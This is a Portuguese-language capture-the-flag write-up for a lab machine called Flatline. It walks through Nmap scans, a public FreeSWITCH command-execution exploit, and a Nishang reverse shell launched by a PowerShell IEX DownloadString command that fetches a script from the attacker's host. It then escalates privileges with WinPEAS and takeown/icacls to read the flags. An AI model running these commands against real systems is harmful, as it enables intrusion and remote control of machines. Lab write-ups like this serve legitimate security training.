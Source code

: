 # _**Flatline CTF**_
![](flat.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um serviço RDP, **ms-wbt-server** na porta 3389  
Vamos utilizar novamente o Nmap para tentar encontrar vulnerabilidades  
> ```bash
> nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -Pn -T4 [ip_adress]
> ```
![](nmap_script.jpg)

Apesar de termos retorno, nenhuma informação é relevante
Após buscar por CVEs e exploits disponíveis, nada foi encontrado  
Foi decidido então buscar pelo outro serviço disponível: FreeSWITCH

![](searchsploit.jpg)  

Encontramos!  
Vamos realizar download do arquivo em [exploit-db](https://www.exploit-db.com/exploits/47799)  
Copiamos o conteúdo para um arquivo _.py_ e verificamos como podemos executar  
Precisamos do endereço IP e um comando CMD, vamos testar _whoami_  

![](exploit_result.jpg)  

Funcionou!  
Vamos tentar obter um _reverse shell_  
Primeiro, vamos realizar o download de <mark>Nishang</mark> com ```sudo apt install```  
Nishang é uma coleção de scripts e payloads em PowerShell usados principalmente para _pentesting_ e _post-exploitation_ em ambientes Windows  
Agora, copiamos um dos arquivos para nosso diretório com ```cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 [current_dir]/shell.ps1```  
No código, adicionamos a seguinte linha no final: ```Invoke-PowerShellTcp -Reverse -IPAddress [ip_address] -Port [port]```  
Por fim, executamos esses comandos:
> ```bash
> nc -lnvp [port]
> python3 -m http.server
> python3 exploit.py [ip_address] "cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://[vpn_ip_address]:8000/shell.ps1')"
> ```
![](shell.obt.jpg)

Conseguimos!
## _**Escalando privilégios**_
Para escalarmos privilégios, vamos utilizar a ferramenta <mark>WinPeas</mark>  
> ```bash
> Invoke-WebRequest -Uri http://[ip_address]:8000/winPEASx64.exe -OutFile winpeas.exe
> ```
Em seguida, executamos o binário  
Verificando o resultado, temos que já somos administrador  

![](admin.jpg)  

Tentando acessar o conteúdo das flags, conseguimos _user.txt_, mas não _root.txt_  
Realizando um pouco de pesquisa sobre como dar permissões em um diretório, encontramos [isso](https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows)  
Então, executamos ```takeown /R /F *.*``` e em seguida ```icacls "root.txt" /q /c /t /grant Users:F``` para obtermos o conteúdo da segunda flag!
